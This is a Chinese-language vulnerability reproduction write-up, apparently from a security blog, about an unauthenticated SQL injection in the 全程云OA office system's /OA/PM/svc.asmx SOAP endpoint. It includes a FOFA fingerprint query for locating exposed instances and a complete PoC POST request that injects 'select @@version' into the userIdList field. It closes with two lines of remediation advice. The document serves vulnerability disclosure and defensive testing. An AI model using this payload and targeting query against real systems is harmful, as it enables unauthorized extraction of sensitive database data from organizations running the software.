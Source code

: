 
# 全程云OA SQL注入漏洞复现

### 0x01 产品简介

  全程云OA为企业提供日常办公管理、公文管理、工作请示、汇报、档案、知识体系、预算控制等26个功能，超过100多个子模块。为企业内部提供高效、畅通的信息渠道，同时也能大力推动公司信息系统发展，提高企业的[办公自动化](https://so.csdn.net/so/search?q=%E5%8A%9E%E5%85%AC%E8%87%AA%E5%8A%A8%E5%8C%96&spm=1001.2101.3001.7020)程度和综合管理水平，加快企业信息的流通，提高企业市场竞争能力。

### 0x02 漏洞概述

 由于全程云[oa办公系统](https://so.csdn.net/so/search?q=oa%E5%8A%9E%E5%85%AC%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)/OA/PM/svc.asmx页面参数过滤不当，导致存在sql注入漏洞，未授权的攻击者可利用该漏洞获取数据库中的敏感信息。

### 0x03 复现环境

FOFA：body="images/yipeoplehover.png"

![](assets/1701071191-447d654507c9eb2faa2bffb13639721c.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /OA/PM/svc.asmx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: text/xml
Accept-Encoding: gzip
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUsersInfo xmlns="http://tempuri.org/">
      <userIdList>select @@version</userIdList>
    </GetUsersInfo>
  </soap:Body>
</soap:Envelope>
```

查询数据库版本

![](assets/1701071191-a4945ecdf05c066fbf10b850e694fe5a.png)

### 0x05 修复建议 

 使用预编译语句。

对进入数据库的特殊字符进行转义处理。
